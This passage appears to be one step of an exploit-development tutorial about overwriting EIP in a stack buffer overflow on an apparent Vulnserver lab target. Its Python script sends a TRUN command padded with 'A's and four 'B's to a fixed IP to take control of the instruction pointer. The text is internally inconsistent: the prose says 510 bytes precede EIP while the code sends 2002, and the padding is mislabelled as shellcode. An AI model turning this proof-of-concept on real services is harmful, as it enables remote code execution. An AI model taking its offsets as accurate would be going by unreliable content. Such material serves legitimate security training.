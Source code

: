 # Overwriting the EIP

In previous step, we successfully overflowed the buffer, which means that we have control over the data that will overwrite the `EIP` (Extended Instruction Pointer).

To proceed with overwriting the `EIP`, we need to consider that there are `510` bytes preceding the `EIP`. Therefore, we will send `510` bytes filled with 'A' characters to reach the `EIP`, followed by `4` bytes filled with 'B' characters to overwrite the `EIP`.

<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/5YVvYKk/4-Overwrite-EIP.png"></img>

```python
#!/bin/python

import sys
import socket
from time import sleep

shellcode = "A"* 2002 + "B"* 4
try:
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.40.135',9999))
      s.send(('TRUN / .:/' + shellcode))
      s.close()
except:
      print "Error connecting to server"
      sys.exit()                  
```                                   
                                        
 The `EBP` (Extended Base Pointer) was filled with 'A's `(41414141)`, and the `EIP` was filled with 'B's `(42424242)`.
